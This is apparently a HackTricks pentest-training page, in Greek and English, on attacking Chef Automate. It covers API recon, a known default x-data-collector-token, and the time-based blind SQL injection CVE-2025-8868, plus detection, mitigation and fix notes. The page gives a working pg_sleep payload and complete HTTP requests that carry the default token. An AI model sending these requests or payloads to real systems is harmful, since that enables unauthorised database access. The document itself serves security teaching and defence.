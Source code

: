 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Επισκόπηση

Αυτή η σελίδα συγκεντρώνει πρακτικές τεχνικές για να enumerate και attack Chef Automate instances, με έμφαση σε:
- Ανακάλυψη gRPC-Gateway-backed REST endpoints και inference των request schemas μέσω validation/error responses
- Κατάχρηση του x-data-collector-token authentication header όταν υπάρχουν defaults
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) που επηρεάζει το πεδίο filters[].type στο /api/v0/compliance/profiles/search

> Σημείωση: Οι backend responses που περιλαμβάνουν header grpc-metadata-content-type: application/grpc συνήθως υποδεικνύουν ένα gRPC-Gateway που γεφυρώνει REST calls προς gRPC services.

## Recon: Architecture and Fingerprints

- Front-end: Συχνά Angular. Static bundles μπορούν να δώσουν hints για REST paths (π.χ., /api/v0/...)
- API transport: REST σε gRPC μέσω gRPC-Gateway
- Οι απαντήσεις μπορεί να περιλαμβάνουν grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Σώματα σφάλματος που ξεκινούν με pq: υποδεικνύουν ισχυρά PostgreSQL με τον Go pq driver
- Σημαντικά Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Το Chef Automate εκθέτει έναν data collector που πιστοποιεί αιτήματα μέσω ενός αφιερωμένου header:

- Header: x-data-collector-token
- Risk: Σε μερικά περιβάλλοντα μπορεί να διατηρείται ένα default token που δίνει πρόσβαση σε προστατευμένες API routes. Γνωστό default παρατηρημένο in the wild:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Αν υπάρχει, αυτό το token μπορεί να χρησιμοποιηθεί για κλήσεις σε Compliance API endpoints που κανονικά προστατεύονται από auth. Προσπαθήστε πάντα να rotate/disable defaults κατά το hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints συχνά leak χρήσιμα validation errors που περιγράφουν το αναμενόμενο request model.

Για το /api/v0/compliance/profiles/search, το backend περιμένει ένα body με ένα filters array, όπου κάθε στοιχείο είναι αντικείμενο με:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Μη έγκυρο JSON ή λάθος τύποι πεδίων συνήθως προκαλούν 4xx/5xx με υποδείξεις, και τα headers υποδεικνύουν τη συμπεριφορά του gRPC-Gateway. Χρησιμοποιήστε αυτά για να χαρτογραφήσετε πεδία και να εντοπίσετε injection surfaces.

## Compliance API SQL Injection (CVE-2025-8868)

- Affected endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Root cause: Έλλειψη σωστής parameterization/whitelisting κατά την εισαγωγή του πεδίου type σε ένα dynamic SQL fragment (πιθανότατα χρησιμοποιείται για την κατασκευή identifiers/WHERE clauses). Κατασκευασμένες τιμές στο type αξιολογούνται από PostgreSQL.

Λειτουργικό time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- Κλείστε την αρχική συμβολοσειρά με ένα μονό εισαγωγικό
- Συγκολλήστε ένα υποερώτημα που καλεί pg_sleep(N)
- Επανεισέλθετε στο πλαίσιο συμβολοσειράς μέσω || ώστε το τελικό SQL να παραμένει συντακτικά έγκυρο ανεξάρτητα από το πού είναι ενσωματωμένο το type

### Απόδειξη μέσω διαφορικής καθυστέρησης

Στείλτε ζευγαρωμένα αιτήματα και συγκρίνετε τους χρόνους απόκρισης για να επαληθεύσετε την server-side execution:

- N = 1 δευτερόλεπτο
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 δευτερόλεπτα
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Οι χρόνοι απόκρισης αυξάνονται με pg_sleep(N)
- Οι απαντήσεις HTTP 500 ενδέχεται να περιέχουν λεπτομέρειες pq: κατά τις δοκιμές, επιβεβαιώνοντας μονοπάτια εκτέλεσης SQL

> Συμβουλή: Χρησιμοποιήστε εργαλείο επικύρωσης χρονισμού (π.χ., πολλαπλές δοκιμές με στατιστική σύγκριση) για μείωση θορύβου και ψευδώς θετικών.

### Impact

Πιστοποιημένοι χρήστες — ή μη πιστοποιημένοι παράγοντες που καταχρώνται ένα προεπιλεγμένο x-data-collector-token — μπορούν να εκτελέσουν αυθαίρετο SQL εντός του PostgreSQL περιβάλλοντος του Chef Automate, θέτοντας σε κίνδυνο την εμπιστευτικότητα και την ακεραιότητα των προφίλ συμμόρφωσης, της διαμόρφωσης και της τηλεμετρίας.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Upgrade guidance: Chef Automate 4.13.295 or later (Linux x86) per vendor advisories

## Detection and Forensics

- API layer:
- Παρακολουθήστε κωδικούς 500 στο /api/v0/compliance/profiles/search όπου filters[].type περιέχει quotes ('), concatenation (||), ή αναφορές σε συναρτήσεις όπως pg_sleep
- Ελέγξτε τα headers απάντησης για grpc-metadata-content-type για να εντοπίσετε ροές gRPC-Gateway
- Database layer (PostgreSQL):
- Ελέγξτε για κλήσεις pg_sleep και σφάλματα κακοσχηματισμένων identifiers (συχνά εμφανιζόμενα με πρόθεμα pq: από τον Go pq driver)
- Authentication:
- Καταγράψτε και ειδοποιήστε για χρήση του x-data-collector-token, ειδικά γνωστών προεπιλεγμένων τιμών, σε όλα τα API paths

## Mitigations and Hardening

- Immediate:
- Ανανεώστε/απενεργοποιήστε τα προεπιλεγμένα data collector tokens
- Περιορίστε την εισερχόμενη πρόσβαση στα data collector endpoints· επιβάλετε ισχυρά, μοναδικά tokens
- Code-level:
- Χρησιμοποιήστε παραμετροποίηση για τα queries· μην συνενώνετε ποτέ τμήματα SQL ως συμβολοσειρές
- Εφαρμόστε αυστηρή λευκή λίστα για τις επιτρεπόμενες τιμές type στον server (enum)
- Αποφύγετε τη δυναμική κατασκευή SQL για identifiers/ρήτρες· εάν απαιτείται δυναμική συμπεριφορά, χρησιμοποιήστε ασφαλές quoting για identifiers και ρητές λευκές λίστες

## Practical Testing Checklist

- Ελέγξτε αν το x-data-collector-token γίνεται αποδεκτό και αν το γνωστό προεπιλεγμένο λειτουργεί
- Χαρτογραφήστε το schema αιτημάτων του Compliance API προκαλώντας validation errors και διαβάζοντας error messages/headers
- Δοκιμάστε για SQLi σε λιγότερο προφανή πεδία τύπου “identifier-like” (π.χ., filters[].type), όχι μόνο σε πίνακες τιμών ή πεδία κειμένου κορυφαίου επιπέδου
- Χρησιμοποιήστε τεχνικές βάσει χρόνου με concatenation για να διατηρήσετε το SQL συντακτικά έγκυρο σε διαφορετικά contexts

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
